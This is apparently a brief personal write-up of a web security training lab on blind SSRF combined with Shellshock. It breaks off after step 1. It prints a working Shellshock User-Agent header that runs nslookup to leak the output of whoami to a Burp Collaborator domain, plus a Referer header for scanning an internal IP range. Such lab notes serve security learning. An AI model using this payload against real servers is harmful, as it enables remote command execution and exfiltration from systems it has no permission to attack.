



# Blind SSRF with Shellshock exploitation

## This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## To solve the lab, use this functionality to perform a [blind SSRF]attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

this lab is expert

---

### step 1

add to scope product page and reload

89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com => this is burpsuite collaborator which is available in pro version
Shellshock exploit systems => () {:;}; /usr/bin/nslookup
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com
Referer: http://192.168.0.§X§:8080/

